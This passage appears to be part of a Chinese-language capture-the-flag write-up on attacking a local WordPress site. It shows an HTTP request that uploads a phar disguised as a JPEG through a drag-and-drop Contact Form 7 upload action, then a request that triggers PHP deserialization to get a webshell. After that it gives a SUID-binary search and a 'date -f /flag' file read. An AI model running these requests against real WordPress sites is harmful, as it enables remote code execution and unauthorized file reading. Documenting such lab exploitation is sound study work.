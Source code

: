 上传文件

```HTTP
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: 127.0.0.1:8012
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------92633278134516118923780781161
Content-Length: 657
Connection: close

-----------------------------92633278134516118923780781161
Content-Disposition: form-data; name="size_limit"

10485760
-----------------------------92633278134516118923780781161
Content-Disposition: form-data; name="action"

dnd_codedropz_upload
-----------------------------92633278134516118923780781161
Content-Disposition: form-data; name="type"

click
-----------------------------92633278134516118923780781161
Content-Disposition: form-data; name="upload-file"; filename="test.jpg"
Content-Type: image/jpeg

{{file(/Users/exp10it/payload.phar)}}
-----------------------------92633278134516118923780781161--
```

触发反序列化

```HTTP
GET /index.php/video/?dl={{base64(phar:///var/www/html/wp-content/uploads/wp_dndcf7_uploads/wpcf7-files/test.jpg/test.txt)}} HTTP/1.1
Host: 127.0.0.1:8012
Connection: close
```

注意 phar url 的结尾必须加上 `/test.txt`, 因为在构造 phar 文件的时候执行的是 `$phar->addFromString("test.txt", "test");`, 这里的路径需要与代码中的 test.txt 对应, 否则网站会一直卡住

连上 webshell 之后查找可用的 SUID 命令

```Bash
find / -user root -perm -4000 -print 2>/dev/null
```

使用 date 命令读取 flag

```Bash
date -f /flag
```
